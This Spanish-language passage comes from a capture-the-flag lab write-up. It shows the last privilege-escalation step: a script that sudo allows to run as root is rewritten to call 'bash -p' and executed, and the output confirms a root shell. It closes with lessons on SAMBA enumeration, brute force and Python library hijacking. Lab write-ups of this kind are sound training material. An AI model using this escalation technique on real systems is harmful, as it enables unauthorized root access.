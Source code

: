 Modificaremos el script para que cuando se ejecute nos de una **bash** con privilegios de **root**
```bash
nano /home/daenerys/.secret/.shell.sh
```

Su contenido:
```bash
bash -p
```

Ahora ejecutamos el **script**
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@0a1e62a2caad:/home/daenerys# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a enumerar el servicio **SAMBA** 
2. Apredimos a realizar fuerza bruta para este servicio
3. Aprendimos a realizar el secuestro de librerias de **python**

## Recomendaciones de Seguridad
- Evitar compartir archivos con credenciales de acceso por **SAMBA**